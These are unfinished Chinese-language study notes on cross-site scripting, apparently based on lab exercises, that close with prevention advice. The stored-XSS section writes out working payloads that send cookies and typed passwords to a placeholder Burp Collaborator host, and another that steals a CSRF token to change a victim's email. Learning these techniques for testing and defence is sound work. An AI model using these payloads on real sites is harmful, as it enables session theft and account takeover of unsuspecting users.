 # XSS 跨站脚本攻击

通过注入恶意的`js`代码，当用户浏览到存在该恶意代码的页面时，恶意代码会被执行

## XSS攻击类型
### Reflect XSS 反射型
简单来说，攻击者直接将含有恶意`js`代码的链接发给受害者，当受害者点开此链接时会发出`HTTP Request`，而恶意代码会通过`HTTP Response`返回给用户，
这样恶意代码就会在受害者的浏览器上执行，起到攻击的效果

这种进攻不会造成特别严重的后果，因为其无法对数据进行任何的处理

当碰到一些可以允许用户进行输入的输入框并且输入后能够返回查询结果时，可以输入
```javascript
<script>alert("xxx")</script>
```
#### Reflect XSS能够干什么
* 用户能在应用里操作什么，`Reflect XSS`就能干什么
* 用户能看什么，`Reflect XSS`就能看什么
* 用户能修改什么，`Reflect XSS`就能修改什么
#### 不同情况下的Reflect XSS
`Reflect XSS`很简单，但问题是往`HTTP Response`哪里放




如果出现警告框，说明此处一定有`XSS`漏洞
### Stored XSS 存储型
恶意代码被存储到服务器中，当用户访问到恶意代码存在的网页上时，恶意代码被执行，破坏性更强，隐蔽性更强

比如说，在网页当中的留言板，留言所有用户都可以看到
```http request
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```
当用户浏览此留言时，可以看到
```html
<p>This post was extremely helpful.</p>
```
如果攻击者在留言版上输入
```javascript
<script>/* Bad stuff here... */</script>
```
当其他用户访问时，能够看到一个警告框

`Stored XSS`通常在留言板这种其他用户能够访问到，并且发布的内容会被数据库存储的地方

#### 盗取cookie
如果发现了`XSS`漏洞则，首先插入

```javascript
<script>alert(document.cookie)</script>
```
使用`burp suite`里面的`burp collaborator client`点击`copy to clipboard`生成一个随即域名

在留言区域插入，并点击发送,https://beeceptor.com/也可以
```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
在`burp collaborator client`中点击`poll now`，找到`session`信息，成功盗取

#### 盗取用户密码
将代码嵌入到留言板中
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
#### 通过XSS发起CSRF攻击
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### DOM-based XSS DOM型



## XSS攻击的危害

## 预防XSS攻击的方法
* `cookie`设置`httpOnly`，这样`javascript`代码就无法读取`cookie`，这样就偷不到了
* 输入检测，检测用户输入的是否含有特殊字符，并对其进行转义或者拒绝恶意输入
* 输出检测，检查最终返回给用户的页面是否包含恶意的`js`代码
* Filter input on arrival. At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
* Encode data on output. At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
* Use appropriate response headers. To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the Content-Type and X-Content-Type-Options headers to ensure that browsers interpret the responses in the way you intend.
* Content Security Policy. As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.

## XSS攻击流程总结